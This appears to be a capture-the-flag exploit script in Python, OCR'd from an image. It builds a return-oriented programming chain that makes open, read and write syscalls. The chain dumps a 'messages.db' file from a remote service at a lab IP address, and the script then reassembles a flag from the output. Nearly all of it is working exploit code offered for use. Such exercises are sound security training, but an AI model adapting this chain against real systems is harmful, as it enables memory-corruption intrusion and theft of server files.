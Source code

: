 ```python
CONST_LARGE =         0x0000000000003000

# 1/ open file
# open(pathname, flags)
# rax = 0x02, rdi = filename, rsi = flags
p += pack('<Q', POP_RSI_RET)
p += pack('<Q', CONST_0) # rsi = 0
p += pack('<Q', POP_RDI_RET)
p += pack('<Q', MESSAGESDB) # rdi = "messages.db"
p += pack('<Q', XOR_RAX_RAX_RET)
p += pack('<Q', POP_RAX_RET)
p += pack('<Q', CONST_2) # rax = 2
p += pack('<Q', SYSCALL) # syscall

# 2/ read(fd, addr, count)
# rax = 0x00, rdi = fd, rsi = writeable_buffer, rdx = count
p += pack('<Q', POP_RDX_POP_RBX_RET)
p += pack('<Q', CONST_LARGE) # rdx = 0x3000
p += pack('<Q', CONST_0)
p += pack('<Q', POP_RSI_RET)
p += pack('<Q', DATA_SECTION) # rsi = @ .data
p += pack('<Q', POP_RDI_RET)
p += pack('<Q', CONST_3) # rdi = 3 (our file descriptor will be most likely 3)
p += pack('<Q', POP_RAX_RET)
p += pack('<Q', CONST_0) # rax = 0
p += pack('<Q', SYSCALL)

# 3/ write(fd, addr, count) to STDOUT
# rax = 0x01, rdi = fd, rsi = writeable_buffer, rdx = count
p += pack('<Q', POP_RDX_POP_RBX_RET) # pop rdx ; pop rbx ; ret
p += pack('<Q', CONST_LARGE) # rdx = 0x3000
p += pack('<Q', CONST_0)
p += pack('<Q', POP_RSI_RET)
p += pack('<Q', DATA_SECTION) # rsi = @ .data
p += pack('<Q', POP_RDI_RET)
p += pack('<Q', CONST_1) # rdi = 1
p += pack('<Q', XOR_RAX_RAX_RET)
p += pack('<Q', POP_RAX_RET)
p += pack('<Q', CONST_1) # rax = 1
p += pack('<Q', SYSCALL)

c = remote('10.10.6.12', 20882)

c.sendlineafter('Enter your name: \n', p)
c.recvuntil('Fetching your message...\n')
dump = c.recvuntil('Segmentation fault')
open('messages.db', 'wb').write(dump)
tmp = dump[-80:]
flag = tmp[45:63]+tmp[22:41]+tmp[0:17]
print(flag.decode())
```
